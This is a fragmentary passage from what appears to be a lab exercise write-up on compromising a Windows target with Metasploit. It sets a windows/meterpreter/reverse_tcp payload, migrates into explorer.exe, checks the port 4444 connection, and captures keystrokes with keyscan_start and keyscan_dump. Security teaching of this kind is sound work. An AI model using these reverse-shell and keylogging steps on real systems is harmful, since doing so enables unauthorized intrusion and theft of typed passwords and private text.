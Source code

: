```set PAYLOAD windows/meterpreter/reverse_tcp``` 
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.



keyscan_dump Shows the keystrokes captured so far



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.


